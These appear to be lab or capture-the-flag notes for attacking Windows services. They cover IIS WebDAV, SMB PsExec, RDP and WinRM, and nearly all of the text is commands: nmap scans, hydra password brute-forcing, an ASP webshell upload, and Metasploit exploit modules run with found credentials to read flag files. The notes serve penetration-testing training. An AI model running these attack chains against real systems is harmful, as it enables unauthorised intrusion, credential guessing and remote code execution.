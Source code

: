 ### Windows: IIS Server DAVTest
	commands 
	nmap -sV -sC ip -vvv
	nmap --script http-enum -sV -p80 ip
bruteforce with hydra without login credentials
	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ip http-get /webdav/ 
step 3 upload files on website with login credentials

	davtest -url http://ip/webdav
	davtest -auth bob:password_123321 -url http://ip/webdav

Step 4 upload .asp backdoor on the target machine to webdav directory using cadaver utility

	cadaver http://ip/webdav and enter the username:password
	Uploading asp backdoor to the IIS web server in webdav directory.
	put /usr/share/webshells/asp/webshell.asp
	ls
Step 5 go to the url http://ip/webdav and enter the login credentials bob:password_123321 and enter the webshell.asp
	dir C:\\
	type C:\\flag.txt


### Exploiting WebDAV with Metasploit
	commands
	nmap -sV -sC ip 
	nmap -sV -O
	davtest -url http://ip/webdav
	davtest -auth bob:password_123321 -url http://ip/webdav
	msfconsole -q
	use exploit/windows/iis/iis_webdav_upload_asp
	set RHOSTS ip
	set HttpUsername bob
	set HttpPassword password_123321
	set PATH /webdav/metasploit%RAND%.asp
	exploit
	shell
	cd /
	dir
	type C:\flag.txt


### Exploiting SMB with PsExec

$$cat /root/Desktop/target
$$

$$nmap ip
- nmap -p445 --script smb-protocols ip
- msfconsole -q
- use auxiliary/scanner/smb/smb_login
- set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
- set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
- set RHOSTS ip
- set VERBOSE false
- exploit
$$

< '- use exploit/window/smb/psexec'>
< '- set RHOSTS ip'>
< '- set SMBUser Administrator' >
< '- set SMBPass qwertyuiop' >
< '- exploit'

- shell
- cd /
- dir
- type flag.txt

### Windows: Insecure RDP Service

	- nmap ip
	- msfconsole
	- use auxiliary/scanner/rdp/rdp_scanner
	- set RHOSTS ip
	- set RPORT ip
	- exploit

	- hyrda -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://ip -s 3333

	- xfreerdp /u:administrator /p:qwertyuiop /v:ip:3333
	- searching for the flag in C:\\
	
#### WinRM: Exploitation with Metasploit

	- nmap --top-ports 7000 10.0.0.173
	- msfconsole -q
	use auxiliary/scanner/winrm/winrm_login
	set RHOSTS 10.0.0.173
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set VERBOSE false
	exploit

	- use auxiliary/scanner/winrm/winrm_auth_methods
	set RHOSTS 10.0.0.173
	exploit
	
	- use auxiliary/scanner/winrm/winrm_cmd
	set RHOSTS 10.0.0.173
	set USERNAME administrator
	set PASSWORD tinkerbell
	set CMD whoami
	exploit
	
	- use exploit/windows/winrm/winrm_script_exec
	set RHOSTS 10.0.0.173
	set USERNAME administrator
	set PASSWORD tinkerbell
	set FORCE_VBS true
	exploit
	
	- cd /
	- dir
	- cat flag.txt
